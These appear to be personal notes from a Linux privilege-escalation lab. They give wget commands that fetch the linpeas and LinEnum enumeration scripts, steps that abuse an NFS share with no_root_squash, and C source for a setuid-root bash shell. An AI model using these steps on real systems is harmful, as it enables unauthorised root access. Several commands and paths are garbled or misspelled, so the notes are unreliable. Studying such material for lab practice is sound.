 
### Payloads:
Linpeas `shell wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`

LinEnum `shell wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`


### NFS

``` Target
# shows nfs shares and flags
cat /etc/export
```
flag `not_root_squash` - gives root user **of the client** ability to create files that can be used as root on server

``` Kali
# you can detect & list nfs with
sudo nmap --script=nfs-showmount 10.10.137.205


# create tmp dirs to mount shares to
mkdir -p /tmp/nfs/sharefolder
mkdir -p /tmp/nfs/tmp
mkdir -p /tmp/nfs/backup

# mount shares
sudo mount -t nfs 10.10.137.205:/home/ubuntu/shrefolder /tmp/nfs/sharefolder
sudo mount -t nfs 10.10.137.205:/tmp /tmp/nfs/tmp
sudo mount -t nfs 10.10.137.205:/home/backup tmp/nfs/backup

# cleaning up
sudo unmount /tmp/nfs/sharefolder
sudo unmount /tmp/nfs/tmp
sudo unmount /tmp/nfs/backup

rm -rf /tmp/nfs/sharefolder
rm -rf /tmp/nfs/tmp
rm -rf /tmp/nfs/backup

# to see what is mounted (lok for IP for mounted from other systems)
findmnt
df -aTh
```

``` Kali
# to compile
int main() 
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

# compile
sudo su
gcc nfs.c -o nfs -wcat pro
```
